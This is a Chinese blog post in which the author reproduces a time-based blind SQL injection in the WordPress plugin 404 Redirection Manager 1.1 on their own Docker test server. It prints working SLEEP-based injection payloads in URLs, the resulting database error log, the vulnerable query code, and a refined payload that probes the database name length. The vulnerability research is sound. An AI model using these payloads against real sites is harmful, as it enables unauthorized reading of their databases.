 ```yaml
---
layout: post
title: WordPress插件:404 Redirection Manager 1.1 SQL注入
categories: [漏洞]
tags: [WordPress,SQL Injection]
fullview: false
comments: true
---
```

发现这个问题的经过是这样的，原本想着上午逛逛exploit db 看看有没有什么漏洞可以自己搭环境可以搞一搞试试的，逛了一圈发现WordPress的404 Redirection Manager 1.0插件有个注入，提交的时间已经过去很多天了。本着观摩一下poc的心态点开看了看，发现WordPress的插件库里依旧还有这款插件，于是乎下载下来，用docker搭建了一个环境。【docker真好用...

下载下来才发现，这个插件已经更新到了1.1版本，就是在这个漏洞提交后不几天更新的，心一下子就凉了一半，心想着这么快就修了。但是好奇心驱使我还是把环境搭好了，用1.0版本的poc尝试了一下，发现依旧有用，虚惊一场，总之先搞了再说。

首先说下搭建的测试环境:

服务器：Apache
数据库类型：MySQL
数据库版本：5.7.15 
数据库客户端版本：libmysql - 5.5.52
PHP扩展:mysqli 
PHP版本：5.6.26-0+deb8u1
phpMyAdmin版本信息：4.4.14
WordPress版本：4.3.6

先做准备工作，在docker上部署的这个WordPress默认的链接形式是这样的：

<code>http://monburan-wordpress-test.daoapp.io/2016/12/22/sample-post/</code>

这里要将WordPress的链接设置成默认的，像这样：

<code>http://monburan-wordpress-test.daoapp.io/?p=123</code>

首先用1.0版本的poc测试一下：

<pre><code>http://monburan-wordpress-test.daoapp.io/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL</code></pre>

‘字面上’的注入很好理解，利用<code>sleep()</code>进行延时注入，当<code>'a'='a'</code>结果为<code>True</code>，则取0，<code>5-0=5</code>，执行<code>sleep(5)</code>。

为了更好的分析这个漏洞产生的过程，我插入了一条可以触发数据库错误的语句<code>') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'</code>(这里多了一个<code>'</code>),借助后台日志，我尝试着找到了这段注入执行的语句。

<pre><code>[Thu Dec 22 06:55:20.702722 2016] [:error] [pid 187] [client 10.10.79.136:43543]WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' regexp regex ) order by LENGTH(regex) desc \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82
</code></pre>

来看看php文件里面写了什么，执行的SQL语句是这样的：

<pre><code>select * from $table_name where enabled=1 and cat='link' and blog='" . get_current_blog_id() . "' and regex<>'' and $permalink_regex_options order by LENGTH(regex) desc </code></pre>

这里变量<code>$permalink_regex_options</code>指向了<code>('$permalink' regexp regex or '$permalink_alternative'  regexp regex )</code>。

<code>$permalink</code> 和 <code>$permalink_alternative</code> 则分别指向了 <code>get_permalink()</code>，<code>get_alternative_permalink()</code>这两个获取固定链接的函数。

综上，可以整理出完整在数据库中执行的语句：

<pre><code>select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL' regexp regex ) order by LENGTH(regex) desc</code></pre>

可以发现，这里<code>sleep</code>执行了两次，所以执行的时间应该在10秒以上。从数据库上跑一下，成功了，时间也没问题。
![pic]()

再精简一下注入语句<pre><code>') AND (SELECT * FROM (SELECT(IF(LENGTH(database())>32,SLEEP(5),0)))abc) AND ('SQL'='SQL</code></pre>


